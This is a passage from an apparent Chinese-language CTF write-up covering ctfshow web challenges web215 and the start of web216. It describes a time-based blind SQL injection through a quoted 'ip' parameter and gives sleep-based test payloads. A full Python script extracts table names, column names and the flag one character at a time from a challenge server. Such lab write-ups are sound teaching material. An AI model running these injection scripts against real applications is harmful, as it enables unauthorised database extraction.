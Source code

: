 ```python
        start = time.time()
        res = requests.post(url,data={'ip': payload, 'debug': '0'})
        stop = time.time()
        if stop - start >=2:
            flag += s
            print(flag)
            break
```

## web215

增加了单引号

试了 `ip=1'and sleep(5)#&debug=0` 没有延时, 但是 and 改成 or 之后就有延时

根据提示信息里的 "屏蔽危险分子", 应该是做了 IP 验证, 使用 and 的话前一个条件为 false 导致不能进行 sleep

改成 `ip=127.0.0.1'and sleep(5)#&debug=0` 后就能延时了

其实用上面的 or 跑脚本也是一样的

```python
import time
import requests

dicts='{ctfshow1234567890-asdf_,qeryuipgjklzxvbnm}'

url = 'http://3790fa05-223e-407e-bfca-69523ae6b671.challenge.ctf.show/api/index.php'

flag = ''

for i in range(64):
    for s in dicts:
        #sql = 'select group_concat(table_name) from information_schema.tables where table_schema=database()'
        #sql = 'select group_concat(column_name) from information_schema.columns where table_name=\'ctfshow_flagxc\' and table_schema=database()'
        sql = 'select group_concat(flagaa) from ctfshow_flagxc'
        payload = '127.0.0.1\'' + f'and if(substr(({sql}),{i},1)=\'{s}\',sleep(2),0)#'
        start = time.time()
        res = requests.post(url,data={'ip': payload, 'debug': '0'})
        stop = time.time()
        if stop - start >=2:
            flag += s
            print(flag)
            break

```

## web216

```
where id = from_base64($id);
```
